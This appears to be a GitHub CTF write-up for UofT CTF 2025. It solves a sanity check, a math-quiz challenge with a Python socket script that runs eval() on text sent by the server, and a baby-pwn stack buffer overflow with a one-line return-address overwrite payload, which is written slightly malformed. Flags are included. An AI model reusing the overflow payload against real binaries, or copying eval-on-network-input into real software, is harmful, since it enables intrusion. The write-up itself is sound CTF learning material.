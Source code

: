 # UofT CTF 2025

## ✨ Misc
### Sanity check
**Description**
> Welcome to UofTCTF 2025!
> Looking for the flag? Make sure you join the [Discord server](https://discord.gg/Un7avdkq7Z). The flag format is uoftctf{...}.

**Solve**

This is just sanity check chall, so just input the flag that was given on discord.

**Flag :**
```
uoftctf{welcome_to_uoftctf_2025!!!!!}
```

### Math test
**Description**
> Complete this simple math test to get the flag.
> `nc 34.66.235.106 5000`
> Author: White

---[Attachment file](chall.py)---

**Solve**

In this challenge, i have to solve all math questions from the server. When i check into the source code, it's endless 1000 questions with crazy numbers range💀💀. "I can't doing ts for rest of competition". So, i decided to make a solver script in python. In that script, it solve any questions from the server correctly. Just connect it with socket, and damnnn. you got the flag.

![image](https://github.com/user-attachments/assets/ef590c05-3f04-4b13-8b0b-948c589236f2)



Here is my code to solve this 1000 math questions
```python
import socket
import re

def solve_math_problem(problem):
    try:
        return eval(problem)
    except ZeroDivisionError:
        return None


def main():
    host = "34.66.235.106"
    port = 5000

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((host, port))

        while True:
            data = s.recv(1024).decode()
            if not data:
                break
            
            print(data)

            match = re.search(r'Question: ([-+*//\d\s]+)', data)
            if match:
                problem = match.group(1).strip()
                print(f"Solving: {problem}")
                
                answer = solve_math_problem(problem)
                if answer is not None:
                    s.sendall(f"{int(answer)}\n".encode())
                else:
                    print("Zero division error occurred.")
                    break

            # Print the flag 
            if "Congratz!" in data:
                print(data)
                break

if __name__ == "__main__":
    main()

```
**Flag :**
```
uoftctf{7h15_15_b451c_10_7357_d16u153d_45_4_m47h_7357}
```
<!--
# Web
## Scavenger Hunt
**Description**
> 
**Solve**


So, if we arrange all of the parts, we got the flag.
### Flag :
```
uoftctf{ju57_k33p_c4lm_4nd_1n5p3c7_411_7h3_4pp5_50urc3_c0d3!!}
```
-->

## 💻 Pwn
### baby-pwn
**Description**
> Here's a baby pwn challenge for you to try out. Can you get the flag?
`nc 34.162.142.123 5000`
Author: atom

**Solve**

As we see at first, this challenge provide the source code and compiled one. We can buffer overflow this chall by passing some 64 + 8 bit input
```bash
python3 -c 'print("A" * 64 + "B" * 8 + \x66\x11\x40\x00\x00\x00\x00\x00)' | ./chal
```
You can change the "**./chal**" with netcat or the original program. Once we run the payload, we'll get this flag

![image](https://github.com/user-attachments/assets/46335ee5-b84d-47c3-9901-58577c94aa72)


**Flag :**
```
uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}
```









==============================================================


Thanks for read this writeup. If u wanna support me, buy me a coffee [here](https://ko-fi.com/abiabdillah) or click button below

<!--<a href="https://ko-fi.com/abiabdillah" style="text-align: center;"><img align="center" width="150" alt="support_me_on_kofi_blue" src="https://github.com/user-attachments/assets/c0fa4650-315c-4a4a-b1e3-76131e9eb8b8" /></a>
-->

[![PayPal](https://img.shields.io/badge/PayPal-00457C?style=for-the-badge&logo=paypal&logoColor=white)](https://paypal.me/abiabdillah) [![Ko-Fi](https://img.shields.io/badge/Ko--fi-F16061?style=for-the-badge&logo=ko-fi&logoColor=white)](https://ko-fi.com/abiabdillahx)
<!-- [!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.ko-fi.com/abiabdillah) -->
